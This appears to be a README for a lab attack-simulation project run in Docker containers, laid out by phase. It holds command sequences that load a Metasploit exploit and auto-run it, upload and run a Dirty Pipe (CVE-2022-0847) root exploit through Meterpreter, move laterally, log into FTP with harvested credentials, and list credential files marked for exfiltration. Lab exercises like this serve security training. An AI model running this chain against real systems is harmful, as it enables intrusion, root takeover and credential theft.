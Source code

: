 # Recon
```bash
#Reconnaissance
#copy recon.sh into k1
docker cp /vagrant/Attacks/Recon/recon.sh k1:/
docker exec k1 chmod +x recon.sh
#Run the script
docker exec k1 ./recon.sh
```

# Execution
```bash
# Execution
cd /vagrant/Attacks/Execution
# copy exploit to metasploit framework directory
docker cp 50531.rb k1:/usr/share/metasploit-framework/modules/exploits/linux/
# run msfconsole with the resource script to auto exploit with the set configurations
docker exec -it k1 msfconsole -r MsfAutoExploit.rc
```

# Privilege Escalation
```bash
# All commands shall be executed inside the Meterpreter session established in Execution phase
# Upload dirtypipe.sh and CVE-2022-0847.c to /tmp directory
upload dirtypipe.sh /tmp
upload CVE-2022-0847.c /tmp

# Drop into shell
shell
# Set execute permission 
chmod +x /tmp/dirtypipe.sh
# Execute dirtypipe.sh to get root shell
cd /tmp && ./dirtypipe.sh
```

# Discovery
```bash
cd /vagrant/Attacks/Discovery
# Setup discovery in vagrant host
./discovery_setup.sh

# During this stage, attacker should have root in S1
docker exec -it s1 bash
./discovery.sh # Run this in s1 root shell --> script is located in root / dir
```

# Lateral Movement
```bash
cd /vagrant/Attacks/Lateral_Movement
./lateral_movement_setup.sh

# During this stage, attacker should have root in S1
docker exec -it s1 bash
./lateral_movement.sh # Run this in s1 root shell --> script is located in root / dir
```

# Exfiltration
```bash


```

# Credential Access
```bash
cd /vagrant/Attacks/Credential Access
# Access S2 FTP Server with new found credentials from suiteCRM
python3 FTP_Access_Automation.py <target> <port> <username> <password>
```

Files to be exfiltrated in S1:

| s/n | Filename            | Machine |
| --- | ------------------- | ------- |
| 1   | /networkenum.txt    | s1      |
| 2   | /ips_sorted.txt     | s1      |
| 3   | /traceroute.txt     | s1      |
| 4   | /internal_host_scan | s1      |
| 5   | /users.txt          | s1      |
| 6   | /db_users.txt       | s1      |
| 7   | /user_creds.txt     | s1      |
| 8   | /ps_aux.txt         | s1      |
| 9   | /local_groups.txt   | s1      |
| 10  | /sysenum.txt        | s1      | 
